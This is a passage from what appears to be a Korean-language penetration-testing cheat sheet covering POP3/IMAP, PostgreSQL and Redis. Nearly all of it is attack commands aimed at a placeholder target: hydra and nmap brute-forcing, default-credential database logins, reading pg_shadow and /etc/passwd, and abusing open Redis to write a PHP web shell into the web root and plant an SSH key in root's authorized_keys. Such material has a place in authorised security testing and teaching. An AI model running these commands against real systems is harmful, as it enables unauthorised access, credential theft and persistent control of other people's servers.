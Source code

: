 ```bash
hydra -l admin -P passwords.txt pop3://{IP}
hydra -l admin -P passwords.txt imap://{IP}

# Nmap 스크립트
nmap --script pop3-brute -p 110 {IP}
nmap --script imap-brute -p 143 {IP}
```

### 🗄️ POSTGRESQL (Port 5432)

```bash
# 기본 연결 시도
psql -h {IP} -U postgres
psql -h {IP} -U postgres -d postgres

# 다른 사용자로 시도
psql -h {IP} -U admin
psql -h {IP} -U user

# 연결 성공시 기본 명령어
\l                     # 데이터베이스 목록
\c database_name      # 데이터베이스 연결
\dt                   # 테이블 목록
\du                   # 사용자 목록
SELECT version();     # 버전 확인

# 중요 시스템 테이블
SELECT * FROM pg_user;
SELECT * FROM pg_shadow;

# 파일 읽기 (슈퍼유저 권한)
SELECT pg_read_file('/etc/passwd');
COPY (SELECT '') TO '/tmp/test.txt';

# 브루트포스
hydra -l postgres -P passwords.txt postgres://{IP}
```

### 🔴 REDIS (Port 6379)

```bash
# 기본 연결 (인증 없음)
redis-cli -h {IP}
nc -nv {IP} 6379

# Redis 명령어
INFO
CONFIG GET "*"
KEYS *
GET key_name

# 파일 쓰기 악용 (인증 없는 경우)
CONFIG SET dir /var/www/html/
CONFIG SET dbfilename shell.php
SET test "<?php system($_GET['cmd']); ?>"
SAVE

# SSH 키 업로드 (홈 디렉토리 쓰기 가능시)
CONFIG SET dir /root/.ssh/
CONFIG SET dbfilename authorized_keys
SET ssh_key "ssh-rsa AAAAB3..."
SAVE

# Cron job 생성 (가능한 경우)
```